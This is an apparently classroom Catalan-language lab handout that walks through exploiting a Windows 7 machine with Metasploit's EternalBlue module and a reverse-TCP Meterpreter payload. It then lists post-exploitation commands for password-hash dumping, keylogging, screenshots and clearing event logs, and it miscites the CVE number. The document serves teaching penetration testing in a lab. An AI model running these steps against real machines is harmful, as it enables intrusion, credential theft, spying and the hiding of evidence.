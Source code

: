 ## En aesta pràctica prepararem la màquina `Windows 7 ` per a poder realitzar algunes activitats amb Metasploit.

!!!danger "Perill!!"
    No proveu açò fora d'un entorn didáctic. Podrieu cometrer un delicte...

## Explotar vulnerabilitat `CVE-2017-010` amb Eternalblue i Doublepulsar des de Metasploit

* Simplement utilitzem el següent exploit:

`use exploit/windows/smb/ms17_010_eternalblue`...i ens torna el control mitjançant un **shell o un Meterpreter** (Metainterprete:payload que permet carregar i injectar en un programa del sistema atacat les extensions que em desenvolupat en format .dll). 

* i payload `set PAYLOAD windows/x64/meterpreter/reverse_tcp`

* i executem `exploit`

Ja estem dins...
* Comandaments que podem fer servir:
  * De sitema:
    * sysinfo
    * getuid
    * migrate `pid`
    * hashdump
    * upload/download
    * shell
    * sysinfo
  * De Espionatge
    * keyscan_start/keyscan_dump
    * screenshot/screenstreamer
  * Per a no deixar Rastre
    * clearev

Per supossat hi han prou més... convide a l'usuari a investigar-los, només heu de ficar dins de l'exploit: `help`.